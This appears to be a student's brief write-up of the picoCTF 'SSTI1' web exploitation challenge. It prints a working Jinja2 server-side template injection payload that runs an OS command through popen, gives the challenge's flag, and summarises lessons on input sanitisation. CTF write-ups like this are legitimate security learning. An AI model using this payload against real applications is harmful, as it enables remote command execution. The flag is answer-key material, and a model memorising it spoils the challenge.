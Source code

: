 # Module-Web Exploiatation
## Challenge 1-SSTI1
## What I did
```
I looked up pyjail ssti1. Thereafter, I came upon {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag')['read']()}}. I pasted this on the website, which gave me the flag.
```
## Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
## What I learned
In the SSTI1 challenge, I learned how Server-Side Template Injection (SSTI) vulnerabilities work and how they can be exploited when user input is unsafely embedded into server-side templates. By experimenting with different payloads, I discovered how template engines like Jinja2 can unintentionally execute code if input isn’t properly sanitized. This taught me the importance of input validation and using safe rendering methods. Overall, the challenge helped me understand how even simple-looking web forms can expose serious security flaws if user input directly interacts with backend logic.


